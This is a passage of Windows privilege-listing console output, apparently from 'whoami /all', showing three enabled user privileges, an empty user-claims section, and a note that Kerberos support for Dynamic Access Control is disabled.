----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
